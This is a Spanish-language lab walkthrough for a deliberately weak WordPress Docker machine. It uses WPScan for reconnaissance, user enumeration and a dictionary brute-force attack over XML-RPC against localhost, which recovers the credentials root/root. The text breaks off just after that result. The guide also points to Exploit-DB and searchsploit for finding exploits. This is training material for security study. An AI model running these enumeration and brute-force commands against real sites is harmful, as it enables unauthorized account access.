= Pereza
:author: Manuel L. Quero
:toc: left
:doctype: book

== Despliegue de la máquina

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, pereza.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh pereza.tar
----

== WordPress y sus vulnerabilidades

WordPress es un sistema de gestión de contenidos (CMS) gratuito y de código abierto que permite a cualquier persona crear y administrar sitios web con facilidad. Originalmente concebido como una plataforma de blogs en 2003, ha evolucionado hasta convertirse en una de las herramientas más versátiles para desarrollar desde simples sitios personales hasta complejas tiendas de comercio electrónico.

Sin embargo, su enorme popularidad (más del 40% de los sitios web del mundo utilizan WordPress) lo convierte en un blanco constante para ciberdelincuentes. Esta popularidad, sumada a una comunidad diversa de desarrolladores de plugins y temas, ha generado un entorno en el que las configuraciones por defecto, credenciales débiles, plugins vulnerables o versiones sin actualizar pueden dejar expuesto un sitio web con facilidad.

=== Vulnerabilidades comunes en WordPress

* *Uso de credenciales por defecto o débiles* -> Muchos administradores dejan el nombre de usuario “admin” y contraseñas como “admin123” o “password”, facilitando ataques de fuerza bruta.

* *Plugins y temas vulnerables* -> WordPress permite ampliar su funcionalidad con plugins, muchos de los cuales son desarrollados por terceros. Cuando no se actualizan con frecuencia o tienen malas prácticas de seguridad, pueden introducir fallos críticos.

* *Versiones desactualizadas del núcleo de WordPress* -> Al no aplicar parches de seguridad, se dejan abiertas puertas ya conocidas y documentadas.

* *Configuraciones por defecto* -> Instalaciones que dejan habilitado el acceso público a /wp-admin o la API REST sin restricciones pueden ser explotadas para enumerar usuarios o realizar ataques automatizados.

=== Ataques frecuentes

Entre los ataques más comunes se encuentran:

* Fuerza bruta contra el panel de login

* Cross-Site Scripting (XSS)

* Inyecciones SQL (especialmente en plugins mal desarrollados)

* Carga de archivos maliciosos

* Escalada de privilegios a través de bugs en extensiones

== Solucionar la máquina

En esta guía aprenderemos cómo analizar un sitio web desarrollado con WordPress para identificar posibles vulnerabilidades. Utilizaremos herramientas como WPScan para detectar configuraciones inseguras, plugins o temas desactualizados y otros puntos débiles comunes. Después se realizará un ataque de fuerza bruta como parte del reconocimiento activo, pero su explicación detallada se abordará en la sección correspondiente al círculo de la ira.

=== Crear nuestro Wordpress

En esta máquina aprenderemos a crear un entorno vulnerable de Wordpress, no nos llevará mucho tiempo, ya que las configuraciones las dejaremos por defecto.

Empezamos eligiendo el idioma:



Después configuramos las credenciales, en este caso al ser un administrador perezoso, pongo unas credenciales sencillas porque ya las cambiaré.



<<<

Por lo que instalamos wordpress y accedemos con nuestras credenciales.



De esta forma ya estaría listo nuestro entorno, en caso opcional, podemos darle un estilo a nuestra página o probar a instalar plugins con vulnerabilidades o incluso securizarlo, las posibilidades son infinitas.

==== Usar entorno Acedia

También podeis usar el entorno que he creado importando el .xml dentro de vuestro wordpress:



<<<

Le damos a instalar y después ejecutamos el importador. En este seleccionamos el archivo acediastore.xml que se encuentra en wp-import.





Una vez hecho esto, le damos a enviar.



Ya tendríamos el entorno, pero faltan las imágenes.



Para importar las imágenes, tenemos que ir a medios y volcar la carpeta acedia-imagenes que se encuentra en wp-import dentro del espacio vacío.



Pero pasarlo no es suficiente, ya que la ruta de estas imagenes es la del mes actual, y la importación se hizo en abril por lo que tenemos que meternos dentro de la máquina modificar la carpeta /wp-content/uploads/2025/(mes actual) a 04/, como se muestra a continuación:



Y ya tendríamos la página sobre la que se basa esta guía.

=== WPscan

WPscan es una herramienta de escaneo de seguridad específica para sitios web construidos con WordPress. 

==== Descargar

Para descargar esta herramienta viene explicado en su https://github.com/wpscanteam/wpscan[github].

* *Gem* -> Esta es la opción más recomendada en caso de usar Kali Linux.

[source,bash]
----
$ sudo apt install ruby
$ sudo apt install build-essential libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev  libgmp-dev zlib1g-dev
$ gem install wpscan
$ gem update wpscan
----

* *Docker* -> En caso de usar otra distribución podemos descargarla por docker.

[source,bash]
----
$ docker pull wpscanteam/wpscan
$ docker run -it --rm wpscanteam/wpscan --url https://target.tld/ --enumerate (...)
----

En caso de usar distribuciones más extrañas puedes https://www.linuxbabe.com/security/install-wpscan-wp-vulnerability-scanner[ver esto].

WPscan es gratis pero mejora con la API, en caso que queramos hacer escaneos más exhaustivos -> https://wpscan.com/pricing/[ver aquí].

==== Reconocimiento

Una vez instalada nuestra herramienta, vamos a proceder a analizar la página.



Es importante saber que el login de WordPress está en /wp-admin. También esta /robots.txt que nos puede proporcionar información adicional.

===== 1. Reconocimiento general

Comenzamos realizando un escaneo general, principalmente para comprender cómo es la estructura, ver las cabeceras, ver si tiene XML-RPC, ver la versión de WordPress, y entre otras cosas que vamos a ver a continuación.

[source,bash]
----
$ wpscan --url http://localhost:8080
----

.WPscan General
[%collapsible]
====
[source,text]
----
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://localhost:8080/ [::1]
[+] Started: Sat Apr 12 19:05:48 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.62 (Debian)
 |  - X-Powered-By: PHP/8.2.28
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://localhost:8080/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://localhost:8080/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://localhost:8080/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.7.2 identified (Latest, released on 2025-02-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://localhost:8080/?feed=rss2, <generator>https://wordpress.org/?v=6.7.2</generator>
 |  - http://localhost:8080/?feed=comments-rss2, <generator>https://wordpress.org/?v=6.7.2</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://localhost:8080/wp-content/themes/twentytwentyfive/
 | Last Updated: 2025-02-11T00:00:00.000Z
 | Readme: http://localhost:8080/wp-content/themes/twentytwentyfive/readme.txt
 | [!] The version is out of date, the latest version is 1.1
 | Style URL: http://localhost:8080/wp-content/themes/twentytwentyfive/style.css?ver=1.0
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://localhost:8080/wp-content/themes/twentytwentyfive/style.css?ver=1.0, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Apr 12 19:05:52 2025
[+] Requests Done: 170
[+] Cached Requests: 5
[+] Data Sent: 44.104 KB
[+] Data Received: 253.503 KB
[+] Memory used: 269.578 MB
[+] Elapsed time: 00:00:03
----
====

* *[+] Headers*

Podemos ver cómo se están exponiendo cabeceras del servidor y del lenguaje utilizado. Gracias a esto podemos buscar CVEs para las versiones de estos servicios y explotarlos

----
Server: Apache/2.4.62 (Debian)
X-Powered-By: PHP/8.2.28
----

* *[+] XML-RPC Enabled*

XML-RPC es un protocolo que permite a aplicaciones externas interactuar con WordPress (ej: publicación remota). Tener esta habilitado es altamente peligroso y explotable. 
Puede usarse para: ataques de fuerza bruta por amplificación, pingback DDoS o escaneo de usuarios.

----
http://localhost:8080/xmlrpc.php
----

* *[+] WordPress readme found*

Este archivo contiene la versión exacta de WordPress, lo que facilita identificar vulnerabilidades específicas de esa versión.

----
http://localhost:8080/readme.html
----

* *[+] External WP-Cron Enabled*

Permite ejecutar tareas programadas como publicar entradas, comprobar actualizaciones, etc. Si se abusa, puede ser usado para sobrecargar el servidor con peticiones constantes (DDoS).

----
http://localhost:8080/wp-cron.php
----

* *[+] WordPress version identified: 6.7.2*

La versión del CMS puede extraerse fácilmente de los feeds RSS. Conocer la versión nos facilita ataques específicos.

* *[+] WordPress Theme: twentytwentyfive*

La version está desactualizada: 1.0 (última: 1.1). Esto es inseguro ya que las versiones desactualizadas de temas pueden contener vulnerabilidades.

* *[i] No Plugins Encontrados*

En este caso no hay plugins con vulnerabilidades.

* *[+] Enumeración de Config Backups*

No se encontraron backups públicos.

===== 2. Reconocimiento de usuarios

En este escaneo, esperamos conseguir los usuarios que tienen acceso a wp-admin

[source,bash]
----
$ wpscan --url http://localhost:8080 --enumerate u
----

.WPscan Usuarios
[%collapsible]
====
[source,text]
----
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] root
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] accidia
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
----
====

He cogido directamente la parte de los usuarios, ya que vuelve hacer un escaner general, y eso ya ha sido explicado anteriormente.

Como podemos observar hemos obtenido dos usuarios que son *root* y *accidia*, gracias a esto podemos realizar ataques de fuerza bruta.

* *Enumeración pasiva (RSS Generator)* -> Al acceder al feed RSS (/?feed=rss2), WordPress expone automáticamente metadatos que incluyen el autor de las entradas. Por eso WPScan identificó al usuario root sin necesidad de interactuar directamente con la web.

* *Enumeración agresiva (Author Pattern)* -> WPScan hace peticiones a URLs como /author=1, /author=2, etc., y observa los redireccionamientos y títulos de las páginas para deducir el nombre de usuario. Así encontró accidia.

===== 3. Otros tipos de escaneos

Cómo ya hemos visto, wpscan es una herramienta muy poderosa contra páginas de WordPress, por eso voy a mostrar otros tipos de enumeración que nos pueden servir para obtener más información:

* *Escanear y enumerar plugins y temas*

[source,bash]
----
$ wpscan --url https://example.com --enumerate ap,at
----

ap -> all plugins.

at -> all templates.

* *Enumerar todas las vulnerabilidades*

[source,bash]
----
$ wpscan --url https://example.com --enumerate vp,vt,tt
----

vp -> vulnerable plugins.

vt -> vulnerable themes.

tt -> vulnerable timthumbs.

Una vez identificamos versiones vulnerables de plugins, temas u otros componentes, tenemos varias formas de continuar el ataque o la investigación:

* *Buscar vulnerabilidades manualmente*

Copiamos la versión del plugin/tema vulnerable y la buscamos en un navegador con términos como:

----
(plugin-name) (version) exploit o (plugin-name) CVE.
----

Es común encontrar repositorios en GitHub, foros o blogs donde se comparten proof of concept (PoC) o incluso exploits funcionales.

* *Usar bases de datos de exploits públicos*

https://www.exploit-db.com[Exploit-DB]: Es una base de datos de vulnerabilidades conocida que incluye descripciones técnicas, PoCs y a veces exploits completos. Buscar por nombre de plugin, tema o CVE detectado.

* *Usar SearchSploit (offline)*

https://www.exploit-db.com/searchsploit[SearchSploit] es una herramienta incluida en Kali Linux que permite buscar localmente en la base de datos de Exploit-DB:

[source,bash]
----
$ searchsploit nombre_del_plugin_o_vulnerabilidad
----

También permite mostrar o copiar el exploit directamente:

[source,bash]
----
$ searchsploit -m exploit/path
----

==== Ataque

Una vez obtenidos los usuarios, vamos a realizar un ataque de fuerza bruta con wpscan. Pero antes tenemos que saber que es un ataque de fuerza bruta.

Un ataque de fuerza bruta es un tipo de ataque que utiliza pruebas y errores para descifrar contraseñas, credenciales de inicio de sesión y claves de cifrado. Es una táctica simple pero confiable para obtener acceso no autorizado a cuentas individuales y sistemas y redes de organizaciones.

Estos ataques requieren mucho tiempo, especialmente cuando se utilizan contraseñas largas o complejas. Además este proceso puede consumir grandes cantidades de recursos del sistema (como la CPU y la memoria), lo que hace que el ataque sea lento y costoso en términos de rendimiento. Además son más faciles de detectar ya que generan grandes cantidades de tráfico de red o múltiples intentos de inicio de sesión fallidos.

Existen varios tipos, pero nosotros vamos a usar el ataque por diccionario, en este el atacante selecciona un objetivo y luego prueba las posibles contraseñas contra el nombre de usuario de esa persona.

<<<

Kali Linux viene con varios diccionarios preinstalados en la ruta /usr/share/wordlists, que forman parte de sus herramientas, podemos verlo más en detalle en el siguiente enlace https://www.kali.org/tools/wordlists/[Wordlists]. Recomiendo primeramente probar diccionarios pequeños, sobretodo si encontramos indicios de credenciales por defecto, ya que tardará menos que si utilizamos diccionarios más grandes como https://github.com/intelligencegroup-io/RockYou2024[rockyou 2024] con 9,948,575,739 contraseñas.

[source,bash]
----
$ wpscan --url https://localhost:8080 -U root -P /usr/share/wordlists/seclists/Passwords/Most-Popular-Letter-Passes.txt
----

.WPscan Password
[%collapsible]
====
[source,text]
----
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - root / root                                                                                                                                                                     
Trying root / roost Time: 00:03:02 <=================================================                                                                > (38665 / 86268) 44.81%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: root, Password: root
----
====

Como podemos ver que el ataque lo realiza sobre Xmlrpc y que ha encontrado la contraseña root, por lo que probamos a ponerla:

